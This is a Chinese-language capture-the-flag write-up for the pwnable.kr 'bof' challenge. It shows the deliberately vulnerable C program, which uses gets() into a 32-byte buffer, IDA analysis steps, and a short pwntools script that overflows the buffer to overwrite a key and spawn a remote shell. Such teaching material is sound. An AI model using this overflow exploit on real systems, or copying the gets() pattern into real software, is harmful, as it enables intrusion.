 ```yaml
---
title: pwnable--bof
updated: 2022-09-06 08:11:11Z
created: 2022-02-22 07:42:39Z
---
```


## bof.c

```cpp
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
        char overflowme[32];
        printf("overflow me : ");
        gets(overflowme);       // smash me!
        if(key == 0xcafebabe){
                system("/bin/sh");
        }
        else{
                printf("Nah..\n");
        }
}
int main(int argc, char* argv[]){
        func(0xdeadbeef);
        return 0;
}
```

## IDA分析

### shift + f12

![7c4eb26e6619c8bb2716dffb3cd0888a.png](https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/7c4eb26e6619c8bb2716dffb3cd0888a.png)

选中s 并按x键

![b9f51be0ba9f2fdc7b812a005d138a27.png](https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/b9f51be0ba9f2fdc7b812a005d138a27.png)

按f5转成伪代码

![cf4579e6405ed3ead2a8526b6044f888.png](https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/cf4579e6405ed3ead2a8526b6044f888.png)

查看反汇编代码

![4b41683917441edec4c0ad9a4406cabd.png](https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/4b41683917441edec4c0ad9a4406cabd.png)

可以得到，需要用输入的变量s覆盖a1的值让其变为0xCAFEBABE，从而获取shell

![964b5d11091bf135a20a2ef3533fd126.png](https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/964b5d11091bf135a20a2ef3533fd126.png)![08db7cecaf4ce800b3f617d6a5ee9f0e.png](https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/08db7cecaf4ce800b3f617d6a5ee9f0e.png)

由上图可以得到偏移地址为 0x2C + 0x8个字节

编写exp脚本 crack.py

```python
from pwn import *

key=p32(0xcafebabe)

payload=remote("pwnable.kr",9000)

payload.send(bytes('a',encoding='utf8')*52+key)

payload.interactive()
```

![2cf3e35fd1aa90249eaef5ae8af2d6d6.png](https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/2cf3e35fd1aa90249eaef5ae8af2d6d6.png)